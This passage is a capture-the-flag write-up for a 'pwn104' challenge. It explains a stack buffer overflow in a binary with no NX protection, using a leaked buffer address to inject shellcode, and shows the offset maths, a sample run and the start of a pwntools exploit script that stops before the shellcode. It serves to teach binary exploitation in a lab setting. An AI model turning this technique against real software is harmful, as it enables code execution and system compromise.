 - `buf@ rbp-0x50` + `saved rbp` = 0x50 + 0x8 = 88 bytes < 200.

How to exploit this?

Note that the binary does not have the **NX enable** protection (view [checksec](#checksec)) and therefore it becomes possible to inject and execute a **shellcode**.

Notice that in the *main* function, a portion of code precedes the *read* that outputs the address of the *buf* variable!

Let's run the program.

```bash
$ ./pwn104 
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 104          

I think I have some super powers 💪
especially executable powers 😎💥

Can we go for a fight? 😏💪
I'm waiting for you at 0x7ffcd528c940
AAAA
```

The idea is to exploit the **stack executable** and the **memory address leak** to execute a *shellcode*, injecting and hijacking the program's execution flow by exploiting the **buffer overflow vulnerability**.

So, after reading the address of *buf* on the stack you need to send a payload of the following form:

- Fill the buffer with a **shellcode** and some *padding* (size= 88 bytes).
- Overwrite the *saved rip*: **leaked buf address**.

## Local Exploitation

For the *shellcode* the *shell-storm database* was used. [https://shell-storm.org/shellcode/files/shellcode-806.html](https://shell-storm.org/shellcode/files/shellcode-806.html)

Below is the script for the local and remote exploit written also using the features offered by the *pwntools* library.

```python
#!/usr/bin/env python3

from pwn import context, ELF, process, remote, info, flat

exe = './pwn104'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

saved_rip_offset = 88

#REMOTE,PORT='10.10.208.103',9004
#io=remote(REMOTE,PORT)
io=process([exe])

### Stage 1: Leak the buf address
buf=int(io.recv().decode().split('I\'m waiting for you at')[1].strip(), 16)
info(f'[+] buf address on stack: {hex(buf)}')


### Stage 2: Shellcode Injection

# source: https://shell-storm.org/shellcode/files/shellcode-806.html
```